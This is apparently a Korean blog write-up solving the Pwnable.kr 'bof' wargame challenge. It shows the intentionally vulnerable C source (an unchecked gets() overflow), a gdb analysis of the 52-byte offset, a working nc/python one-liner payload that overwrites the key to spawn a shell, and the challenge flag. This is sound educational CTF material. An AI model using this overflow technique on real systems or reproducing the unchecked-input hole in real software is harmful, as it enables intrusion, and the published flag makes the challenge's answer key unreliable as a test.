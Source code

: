 ```yaml
---
layout: post
title: ! "[Pwnable.kr] Toddler's Bottle - bof 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Pwnable.kr]
tags:
  - Write-up
  - Pwnable.kr
---
```


`Pwnable.kr` 문제에서 3번째 문제인 `bof` 문제를 풀어보았다.  

이번 문제는 로컬 문제가 아니라 리모트로 접속 해 풀어야 하는 문제이다.  

<!--more-->

때문에 `bof` 문제에서는 `bof` 실행파일과 `bof.c`라는 소스코드를 다운로드 할 수 있는 링크와 리모트로 접속할 수 있는 정보를 제공해준다.  

* [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
* [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
* nc pwnable.kr 9000

`bof.c`의 소스코드를 확인해 보면 아래와 같다.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`main` 함수에서는 `0xdeadbeef`를 인자로 해 `func` 함수를 호출한다.  

`func` 함수에서는 먼저 `32 byte` 의 char 형 변수인 `overflowme`를 선언하고, 해당 변수에 `gets` 함수를 통해 입력을 받아 저장한다.  

* gets 함수
	* 함수 원형 : gets(char * str)
	* 표준 입력에서 문자열을 가져온다.
	* 이 때, 개행 문자(\n)이나 파일 끝(EOF)를 만나기 전까지 가져오는데, 크기를 따로 검사하지 않기 때문에 `overflow` 가 일어날 수 있다.

이 후, 만약 `func` 함수에 인자로 넘어 온 `key`의 값이 `0xcafebabe`와 같다면 `system` 함수를 통해 `/bin/sh`를 실행시켜 준다.  

`func` 함수에서 `gets` 함수를 통해 문자열을 입력 받는데, 문자열의 길이를 검사하지 않는다.  

때문에 `overflow`를 발생시킬 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_01.PNG)  

위의 그림은 `func` 함수를 호출했을 때의 `stack` 모습니다.  

`func` 함수를 호출하면 스택에는 `func` 함수의 인자인 `key(0xdeadbeef)` 스택에 저장하고, `return address`와 `SFP`를 차례로 스택에 저장한 후, `func` 함수에서 사용 할 지역 변수인 `overflowme`를 위한 공간을 할당한다.  

이 때, `overflowme`는 `32 byte`의 공간을 할당받았지만 `gets` 함수에서 문자열의 길이를 확인하지 않아 아래와 같이 `overflow`가 발생할 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_02.PNG)  

`overflowmw`에 충분한 값을 입력한 후, `func` 함수의 인자인 `key`의 값이 저장된 위치에 `0xcafebabe`를 덮어 쓴다면 `system("/bin/sh")`가 실행되며 쉘을 얻을 수 있다.  

문제를 풀기 위해선 `overflowme`와 `key` 사이의 거리를 알아야 한다.  

이를 알기 위해 `gdb`를 사용했다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_03.PNG)

먼저 `key`의 값을 비교하는 부분인 `0x56555654 <+40>`에 `break point`를 걸고 `32 byte` 만큼을 입력 해 보았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_04.PNG)

실행 후 확인해 본 결과 아래와 같았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_05.PNG)

`0xffffd5cc` 부터 `overflowme`가 시작되며, `0xffffd600` 위치에 `key`의 값인 `0xdeadbeef`가 저장되어 있는 것을 알 수 있다.  

두 변수 간의 거리는 다음과 같다.  

* 0xffffd600 - 0xffffd5cc = 0x34 (= 52)

즉, 두 변수는 `52 byte` 만큼 떨어져 있다.  

따라서 쉘을 얻기 위해서는 `52 byte` 만큼의 값을 입력하고, 이 후 `0xcafebabe`를 입력 해 주면 `overflow`가 발생하며 `func`의 인자인 `key`의 값을 덮어쓸 수 있을 것이다.  

이를 실행해본 결과 다음과 같이 쉘을 얻을 수 있었다.  

파일을 확인해 본 결과 `flag` 파일이 있어, 이를 실행했더니 `flag`를 얻을 수 있었다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_06.PNG)

```
ccoma@vultr:~$ (python -c 'print "a"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

```
FLAG : daddy, I just pwned a buFFer :)
```
